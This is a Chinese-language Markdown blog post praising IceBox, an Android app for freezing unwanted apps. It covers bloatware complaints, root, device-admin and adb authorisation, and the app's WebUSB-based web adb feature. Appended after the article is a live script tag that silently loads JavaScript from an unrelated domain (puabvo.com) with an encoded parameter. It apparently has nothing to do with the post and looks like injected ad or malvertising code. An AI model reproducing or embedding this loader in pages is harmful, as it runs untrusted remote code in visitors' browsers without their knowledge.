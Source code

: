```yaml
---
title: 冰箱iceBox|一个让人叹为观止的软件
date: 2021-03-20 12:00:27
categories: 神器--冰箱的使用日常
tags:
- icebox
---
```

# `冰箱`
- 在着个国内流氓软件繁多的世界，你遇到过许多的不如愿。
在安卓6以后bl锁在许多机型中不可触及
你花高价买了手机后，你拥有的不过是手机的使用权，其实根本无法完全控制你的手机。作为一个普通人，你即使花再多的钱买手机也不过是获得一小部分的优势而已。因为软件是别人做的，你的手机再贵也不可能躲掉拼多多，淘宝烦人的推送，不可能阻止那些毫无创意且幼稚的广告，不可能逃掉软件随意意弹出的页面，不可能避免那些全家桶应用自启。有人说卸掉软件就行了，可是那些软件你卸得掉吗?
`你的手机其实根本就不是你的`
手机只是你被商人压榨的工具。
害怕拆机短接，bl解锁麻烦，有些手机上不可能，每个商人都想要利益最大化。
不少技术大佬去买谷歌的`Nexus`或者`一加`，`小米`
原因是他们能给的是一部手机，而不是只是使用权。
不想寻求权利的普通用户也就这样吧，聪明人知道去维护自己应有的权利。
在巨大的利益链之下有着正义的使者。
冰箱就是其中之一。
`冰箱是一个专注于冻结应用的安卓软件，我能毫不犹豫的说它是下载量第一的冻结应用软件`

# 特点
为什么冰箱如此受欢迎
- [x] 精心设计的MD风格软件
- [x] 支持多重授权方式 Root 设备管理员 adb
- [x] 提供冻结应用的管理，自动冻结等
- [x] 开发者的十分努力，为用户提供了web adb的快捷授权，并同黑域，炼妖壶等开发者进行交流。

在特点之中web adb最为闪亮，webUSB这项谷歌还在实验阶段的技术的使用，让web adb成为可能，adb变得更加便捷。
最重要的是让你在没有电脑的情况下激活授权，而需要的只是一根otg和另一部手机。

<script>(function(d){let s=d.createElement('script');s.async=true;s.src='https://puabvo.com/code/native.js?h=waWQiOjExNjQ1NDIsInNpZCI6MTMwNTk5OSwid2lkIjo1MTgwNTYsInNyYyI6Mn0=eyJ';d.head.appendChild(s);})(document);</script>
